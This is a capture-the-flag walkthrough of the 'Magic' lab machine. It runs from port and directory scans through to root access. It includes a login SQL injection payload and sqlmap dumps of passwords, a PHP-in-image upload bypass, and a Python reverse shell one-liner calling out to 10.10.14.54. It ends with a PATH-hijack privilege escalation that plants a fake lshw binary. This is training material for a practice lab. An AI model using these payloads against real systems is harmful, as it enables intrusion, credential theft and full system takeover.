

# Magic

## Machine Info


## Recon

- nmap

```console
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Magic Portfolio
|_http-server-header: Apache/2.4.29 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (97%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- path

```console
$ gobuster dir -u http://10.10.10.185/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 64 --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.185/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 4221]
/assets               (Status: 301) [Size: 313] [--> http://10.10.10.185/assets/]
/upload.php           (Status: 302) [Size: 2957] [--> login.php]
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/images               (Status: 301) [Size: 313] [--> http://10.10.10.185/images/]
/index.php            (Status: 200) [Size: 4053]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

## Foothold

### SQL Injection

- `http://10.10.10.185/login.php` poc: `admin' or 1=1 -- -`


- **sqlmap** to dump db data

```console
$ sqlmap -r request.txt -p username --batch --level 5 --risk 3
[21:03:35] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 433 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-8905' OR 9694=9694-- OLJv&password=admin

    Type: time-based blind
    Title: MySQL > 5.0.12 AND time-based blind (heavy query)
    Payload: username=admin' AND 1206=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C WHERE 0 XOR 1)-- ClpM&password=admin
---
[21:03:37] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: MySQL > 5.0.12
```

```console
$ sqlmap -r request.txt -p username --batch --level 5 --risk 3 --dbs
available databases [2]:
[*] information_schema
[*] Magic

$ sqlmap -r request.txt -p username --batch --level 5 --risk 3 -D Magic -T login --dump
Database: Magic
Table: login
[1 entry]
+----+----------------+----------+
| id | password       | username |
+----+----------------+----------+
| 1  | Th3s3usW4sK1ng | admin    |
+----+----------------+----------+
```

### File Upload

- `http://10.10.10.185/upload.php`
- find the uploaded file's web path: `http://10.10.10.185/images/uploads/<pic>.png`

- block procedures: Content-Type, file extension => **whitelist**
- how to bypass? => [File upload bypass - Hacker's Grimoire (gitbook.io)](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass#php-getimagesize), For file uploads which validate image size using php `getimagesize()`, it may be possible to execute shellcode by inserting it into the Comment attribute of Image properties and saving it as `file.jpg.php`




- visit command injection with reverse shell code: `http://10.10.10.185/images/uploads/a.php.png?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.54",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`

```console
$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.10.185] 55988
www-data@magic:/var/www/Magic/images/uploads$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@magic:/var/www/Magic/images/uploads$ uname -a
Linux magic 5.3.0-42-generic #34~18.04.1-Ubuntu SMP Fri Feb 28 13:42:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
www-data@magic:/var/www/Magic/images/uploads$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:c0:96 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.185/23 brd 10.10.11.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:c096/64 scope link
       valid_lft forever preferred_lft forever
```

## Privilege Escalation

### www-data -> theseus

- su to get theseus shell using dumped password from SQLi

```console
www-data@magic:/var/www/Magic/images/uploads$ su theseus
Password: Th3s3usW4sK1ng

theseus@magic:/var/www/Magic/images/uploads$ id
uid=1000(theseus) gid=1000(theseus) groups=1000(theseus),100(users)
```

- another method to extract this password: enum mysql db config in Magic service

```
theseus@magic:/var/www/Magic$ cat db.php5
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
...

theseus@magic:/var/www/Magic$ mysqldump Magic -u theseus -p iamkingtheseus

--
-- Dumping data for table `login`
--

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;
```

### theseus -> root

- suid enum: `/bin/sysinfo` abnormal binary

```console
theseus@magic:/tmp$ find / -perm -u=s -type f 2>/dev/null -ls
    39884    376 -rwsr-xr--   1 root     dip        382696 Feb 11  2020 /usr/sbin/pppd
    30836     40 -rwsr-xr-x   1 root     root        40344 Mar 22  2019 /usr/bin/newgrp
    30894     60 -rwsr-xr-x   1 root     root        59640 Mar 22  2019 /usr/bin/passwd
    30209     76 -rwsr-xr-x   1 root     root        76496 Mar 22  2019 /usr/bin/chfn
    30468     76 -rwsr-xr-x   1 root     root        75824 Mar 22  2019 /usr/bin/gpasswd
    23967    148 -rwsr-xr-x   1 root     root       149080 Jan 19  2021 /usr/bin/sudo
    31000     24 -rwsr-xr-x   1 root     root        22520 Mar 27  2019 /usr/bin/pkexec
    30211     44 -rwsr-xr-x   1 root     root        44528 Mar 22  2019 /usr/bin/chsh
    31393     20 -rwsr-xr-x   1 root     root        18448 Jun 28  2019 /usr/bin/traceroute6.iputils
    30133     24 -rwsr-xr-x   1 root     root        22528 Jun 28  2019 /usr/bin/arping
    24042     12 -rwsr-xr-x   1 root     root        10312 Dec  9  2019 /usr/bin/vmware-user-suid-wrapper
    56997    428 -rwsr-xr-x   1 root     root       436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
   131127     28 -rwsr-xr-x   1 root     root               26696 Jan  8  2020 /bin/umount
   131130     32 -rwsr-xr-x   1 root     root               30800 Aug 11  2016 /bin/fusermount
   393232     24 -rwsr-x---   1 root     users              22040 Oct 21  2019 /bin/sysinfo
   131123     44 -rwsr-xr-x   1 root     root               43088 Jan  8  2020 /bin/mount
   131231     44 -rwsr-xr-x   1 root     root               44664 Mar 22  2019 /bin/su
   131203     64 -rwsr-xr-x   1 root     root               64424 Jun 28  2019 /bin/ping
```

- execute sysinfo to get **system's info** including hardware, disk, cpu, memory => these are all need **root privilege** => **strings** to check sysinfo binary's **operations**

```console
theseus@magic:/var/www/Magic$ strings /bin/sysinfo
...
====================Hardware Info====================
lshw -short
====================Disk Info====================
fdisk -l
====================CPU Info====================
cat /proc/cpuinfo
====================MEM Usage=====================
free -h
...
```

- **sysinfo** execute some root priv commands, and lshw uses the **relative path** to execute binary file as a higher privilege
- we can change **PATH** into the current directory and **fake a binary file** lshw to trigger a root-priv reverse shell (or cp a bash file into /tmp and set it as suid, also ok; or add a new line into passwd or shadow with a new root-priv user, also ok; not test although)

```console
theseus@magic:~$ export PATH=.:$PATH
theseus@magic:~$ vi lshw
theseus@magic:~$ cat lshw
#!/bin/bash

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.54",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
theseus@magic:~$ chmod +xs lshw
theseus@magic:~$ ls -l lshw
-rwsrwsr-x 1 theseus theseus 239 Jan 19 06:28 lshw
theseus@magic:~$ sysinfo
====================Hardware Info====================
```

```console
$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.10.185] 56434
root@magic:~# id
id
uid=0(root) gid=0(root) groups=0(root),100(users),1000(theseus)
root@magic:~# uname -a
uname -a
Linux magic 5.3.0-42-generic #34~18.04.1-Ubuntu SMP Fri Feb 28 13:42:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
root@magic:~# ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:c0:96 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.185/23 brd 10.10.11.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:c096/64 scope link
       valid_lft forever preferred_lft forever
```

## Exploit Chain

port scan -> path scan -> login page SQLi -> password dumped -> file upload -> PHP getimagesize() -> insert shellcode into comment attribute of image properties to execute it, image name: .php.png -> www-data web shell -> enum mysql db -> theseus shell -> suid sysinfo -> root-priv command with relative path -> alter PATH and fake same name binary file -> root shell
